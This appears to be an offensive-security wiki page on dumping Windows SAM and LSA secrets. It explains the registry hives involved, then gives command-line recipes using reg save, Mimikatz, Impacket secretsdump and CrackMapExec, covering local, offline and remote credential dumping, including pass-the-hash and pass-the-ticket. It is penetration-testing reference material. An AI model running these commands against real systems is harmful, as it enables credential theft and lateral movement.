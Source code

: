 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM \(Security Account Manager\) and SECURITY.

<table>
  <thead>
    <tr>
      <th style="text-align:left">Hive</th>
      <th style="text-align:left">Details</th>
      <th style="text-align:left">Format or credential material</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SAM</td>
      <td style="text-align:left">stores local cached credentials (referred to as SAM secrets)</td>
      <td style="text-align:left">LM or NT hashes</td>
    </tr>
    <tr>
      <td style="text-align:left">SECURITY</td>
      <td style="text-align:left">stores domain cached credentials (referred to as LSA secrets)</td>
      <td
      style="text-align:left">
        <p>Plaintext passwords</p>
        <p>LM or NT hashes</p>
        <p>Kerberos keys (RC4, DES, AES)</p>
        <p>Domain Cached Credentials (DCC1 and DCC2)</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">SYSTEM</td>
      <td style="text-align:left">contains enough info to decrypt SAM secrets and LSA secrets</td>
      <td style="text-align:left">N/A</td>
    </tr>
  </tbody>
</table>

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| :--- | :--- |
| Plaintext passwords | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| LM/NT hashes | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md), [overpass-the-hash](../../abusing-kerberos/pass-the-key.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| Kerberos keys \(RC4\) | [credential cracking](../cracking.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md), [overpass-the-hash](../../abusing-kerberos/pass-the-key.md) or [silver tickets](../../abusing-kerberos/forged-tickets.md) |
| Kerberos keys \(DES, AES\) | [credential cracking](../cracking.md) |
| Domain Cached Credentials \(DCC1 or DCC2\) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM 'C:\Windows\Temp\sam.save'
reg save HKLM\SECURITY 'C:\Windows\Temp\security.save'
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using [Volume Shadow Copy](ntds.dit.md#volume-shadow-copy-vssadmin).
{% endhint %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives \(and `SYSTEM` for the encryption keys\), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}
{% endtabs %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" caption="" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" caption="" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

